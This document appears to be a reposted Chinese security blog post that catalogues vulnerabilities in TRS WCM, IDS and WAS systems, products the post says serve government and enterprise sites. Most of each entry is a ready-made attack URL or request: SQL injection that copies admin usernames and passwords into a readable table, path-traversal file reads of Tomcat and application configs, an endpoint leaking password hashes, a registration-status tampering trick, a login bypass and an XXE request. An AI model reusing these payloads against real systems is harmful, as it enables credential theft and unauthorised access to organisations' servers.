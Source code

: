 ```yaml
---
layout: post
title:  TRS漏洞整理 （转发）
date:   2018-10-19 17:23:03 +0800
img:
description: TRS北京拓尔思信息技术股份有限公司，其业务系统主要应用于政府、教育、企业等领域，漏洞较多系统有WCM（内容管理系统）、WAS（文本检索系统）、IDS（身份管理系统）。好多客户用到这个，记录一下
categories: web安全
---
```


> 转自 [https://chmod.cf/2017/06/22/TRS%E6%BC%8F%E6%B4%9E%E6%95%B4%E7%90%86/](https://chmod.cf/2017/06/22/TRS%E6%BC%8F%E6%B4%9E%E6%95%B4%E7%90%86/)

* 目录
{:toc}

## 0x00 [前言](前言)

TRS北京拓尔思信息技术股份有限公司，其业务系统主要应用于政府、教育、企业等领域，漏洞较多系统有WCM（内容管理系统）、WAS（文本检索系统）、IDS（身份管理系统）。好多客户用到这个，记录一下

## 0x01 [WCM内容管理系统](WCM内容管理系统)

### 1.1 [WCM5.2~WCM6.5存在SQL注入](WCM5.2~WCM6.5存在SQL注入)

首先是这个页面，[http://xx.xx.xx/portal/db/dbupdatelog_list.jsp](http://xx.xx.xx/portal/db/dbupdatelog_list.jsp)

直接注入

```
http://agent.trs.cn/portal/db/db ... &OrderType=desc;/**/update/**/WCMDBUPDATELOG/**/set/**/LogTitle=%28select/**/top/**/1/**/UserName%2bPassWord/**/from/**/WCMUSER%29/**/where/**/1=1--&OrderField=TableName&SearchKey=CrTime&PageItemCount=15&SearchTable=WCMDBUPDATELOG

http://agent.trs.cn/portal/db/db ... &OrderType=desc;/**/update/**/WCMDBUPDATELOG/**/set/**/LogTitle=%28select/**/top/**/1/**/UserName%2bPassWord/**/from/**/WCMUSER%29/**/where/**/1=1--&OrderField=TableName&SearchKey=CrTime&PageItemCount=15&SearchTable=WCMDBUPDATELOG
```    

注：存在注入参数为:`OrderType`和`OrderField`

### 1.2 [WCM任意文件下载漏洞](WCM任意文件下载漏洞)

漏洞存在于`wcm/app/system/read_image.jsp`读取上传图片功能处，可构造链接下载任意文件，列如

```
http://xx.xx.xx/wcm/app/system/read_image.jsp?Filename=../../../tomcat/conf/tomcat-users.xml
```   

读取`tomcat`配置文件

### 1.3 [WCM6.x系列用户密码泄漏](WCM6.x系列用户密码泄漏)

TRS WCM 6.0以上版本某个功能页面调用`service`限制不严格，可以获取后台管理用户的用户名和密码序列。

访问链接：

```
HTTP://xx.xx.xx/wcm/infoview.do?serviceid=wcm6_user&MethodName=getOnlineUsers
```    

WCM的密码加密方式是：常规`32`位`MD5`取前`15`位;

如果只访问`wcm/infoview.do`，尽管是个错误页面，比如：

首先访问

```
http://xx.xx.xx/wcm/infoview.do
```    

然后你再访问：

```
http://xx.xx.xx/wcm
```    

### 1.4 [WCM用户注册逻辑漏洞](WCM用户注册逻辑漏洞)

问题出在`wcm/console/auth/reg_newuser.jsp`文件中

即将随意表单改成`STATUS`值为`30`，或增加`STATUS`字段表单。

然后提交注册

虽然说是“请等待开通！”，但实际上已经开通了，因为`STATUS`字段已经改成正常了。

直接登陆

虽然没什么权限，但后台存在大量注入等漏洞

可以通过注入直接操作数据库了。

```
http://localhost:9999/wcm/file/read_file.jsp?FileName=U020120628383491551127/../../../../../Tomcat/webapps/wcm/WEB-INF/classes/trsconfig/domain/config.xml&sDownName=xx
```    

### 1.5 [WCM6权限绕过](WCM6权限绕过)

首先访问wcm目录，会自动跳转到登录页面

在网址后加上查看管理员密码的链接：

```
wcm/infoview.do?serviceid=wcm6_user&MethodName=getUsersByNames&UserNames=admin
```    

之前的漏洞说查看管理员信息的危害不大是因为`MD5`加密只取半截，并且即使破解还有可能遇到`admin`账号未启用的问题

这时我们点击浏览器的后退按钮或在地址栏的网址后面直接输入`wcm/app/login.jsp`，这样就绕过权限登录了

### 1.6 [WCM全版本任意文件写入漏洞](WCM全版本任意文件写入漏洞)

这个是16年年初出的漏洞，当初协助北京公司做过一次排查。

是利用`webservices`的`importDocuments`接口匿名访问，加上畸形文件名进行利用，未找到poc

## 0x02 [IDS身份管理系统](IDS身份管理系统)

### 2.1 [IDS系统任意文件读取和信息泄露漏洞](IDS系统任意文件读取和信息泄露漏洞)

漏洞文件路径在`admin/debug/`目录下，读取文件为`fv.jsp`，信息泄露为`env.jsp`等，直接访问文件即可

### 2.2 [XXE漏洞](XXE漏洞)

使用`DNS Log`进行记录

    
    POST /ids/service?idsServiceType=jitSyncUser HTTP/1.1
    Host: **.**.**.**
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:45.0) Gecko/20100101 Firefox/45.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: trsidsssosessionid=2382B8AE9E8FB5B441212CE2595F963E**.**.**.**
    X-Forwarded-For: **.**.**.**
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=---------------------------1988224119974
    Content-Length: 196
    ]>&xxe;
    

[参考资料](https://www.secpulse.com/archives/49564.html)

## 0x03 [WAS文本检索系统](WAS文本检索系统)

### 3.1 [WAS未授权访问](WAS未授权访问)

安装目录下`was40/tree`文件可以看到一些后台功能

访问`was40/passwd/passwd.htm`输入一个不存在的用户名会暴露出服务器内网IP地址 同时存在暴力破解用户密码的可能性

### 3.2 [未授权发布信息](未授权发布信息)

编辑信息的时候未对提交的数据进行过滤，同时存在未对用户是否登录进行验证

## 0x04 [WAS任意文件读取](WAS任意文件读取)

问题出在`/was5/web/tree`文件下，构造路径可以任意读取文件，这个就创宇提的那个漏洞


    http://xx.xx.xx/was5/web/tree?treefile=/WEB-INF/classes/com/trs/was/resource/wasconfig.properties    

## 0x05 [WAS任意文件下载漏洞](WAS任意文件下载漏洞)

问题出在`was5/admin/template/download_templet.jsp`文件下，构造`type`参数的值可以任意下载文件，


    http://xx.xx.xx/was5/admin/template/download_templet.jsp?type=../web/tagscloud    

## 0x06 [WAS任意文件写入](WAS任意文件写入)

漏洞文件是`was5/admin/template/customize/detailcustomize`,构造`template`的参数值进行任意文件写入

同理还有一个问题文件`/was5/admin/template/customize/outlinecustomize`，利用方式一样